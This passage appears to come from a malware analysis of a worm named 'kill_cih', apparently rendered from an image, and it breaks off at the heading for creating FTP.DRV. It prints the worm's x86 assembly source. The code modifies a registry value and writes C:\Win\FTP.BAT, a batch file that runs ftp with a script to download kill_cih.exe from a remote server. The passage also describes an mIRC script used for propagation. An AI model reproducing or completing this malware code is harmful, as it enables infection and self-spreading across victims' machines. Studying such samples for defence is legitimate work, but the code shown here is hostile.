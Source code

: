 ```assembly
push offset NOM3                ; killcih
push p
call RegSetValueExA             ; Modify registry value

push 0
call RegCloseKey                ; Close registry
```

----------

## **6. Creating Files for FTP and mIRC Auto-Spreading**

The malware creates three files in `C:\Win`:

-   **FTP.DRV**: Used to connect to an FTP server and download `kill_cih.exe`.
-   **FTP.BAT**: Executes `FTP.DRV`.
-   **MIRC.EKP**: A script for mIRC to propagate the malware.

### **Creating FTP.BAT**


```assembly
push 00000000h
push 00000080h
push 00000002h
push 00000000h
push 00000001h
push 40000000h
push offset bat
call CreateFileA

mov  [fh],eax
push 00h
push offset octets
push batsize
push offset batd
push [fh]
call WriteFile

push [fh]
call CloseHandle
```

**Content of FTP.BAT:**

```assembly
batd    db "@echo off",0dh,0ah
        db "start ftp -i -v -s:C:\Win\ftp.drv",00h
```

----------

### **Creating FTP.DRV**
